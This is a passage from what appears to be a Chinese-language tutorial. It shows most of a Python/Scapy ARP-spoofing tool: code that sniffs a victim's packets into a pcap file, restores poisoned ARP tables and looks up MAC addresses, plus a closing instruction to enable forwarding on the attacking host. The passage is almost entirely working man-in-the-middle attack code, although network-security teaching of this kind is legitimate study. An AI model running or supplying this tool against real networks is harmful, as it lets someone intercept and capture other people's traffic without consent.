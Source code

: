 ```python
            except KeyboardInterrupt:  
                self.restore()  
                sys.exit()  
            else:  
                time.sleep(2)  
  
    def sniff(self, count=100):  
        time.sleep(5)  
        print(f'Sniffing {count} packet')  
        bpf_filter = 'ip host %s' % self.victim  
        packets = sniff(count=count, filter = bpf_filter, iface=self.interface)  
        wrpcap('arper.pcap', packets)  
        print('Got the packets')  
        self.restore()  
        self.poison_thread.terminate()  
        print('Finished.')  
  
    def restore(self):  
        print('Restoring ARP tables...')  
        send(ARP(  
            op = 2,  
            psrc = self.gateway,  
            pdst = self.victim,  
            hwsrc = self.gatewaymac,  
            hwdst = 'ff:ff:ff:ff:ff:ff'),  
            count = 5)  
  
        send(ARP(  
            op = 2,  
            psrc = self.victim,  
            pdst = self.gateway,  
            hwsrc = self.victimmac,  
            hwdst = 'ff:ff:ff:ff:ff:ff'),  
            count = 5)  
  
def get_mac(target_ip):  
    # Ether: 广播， ARP：请求MAC地址  
    packet = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op="who-has", pdst=target_ip)  
    resp, _ = srp(packet, timeout=2, retry=10, verbose=False)  
    for _, r in resp:  
        return r[Ether].src  
    return None
  
if __name__ == '__main__':  
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])  
    myarp = Arper(victim, gateway, interface)  
    myarp.run()
```

在运行之前，我们首先要打开攻击主机的转发功能，当我们收到目标主机来的分组的时候要将其转发出去（给网关），从网关收到发给目标主机的分组也需要进行转发
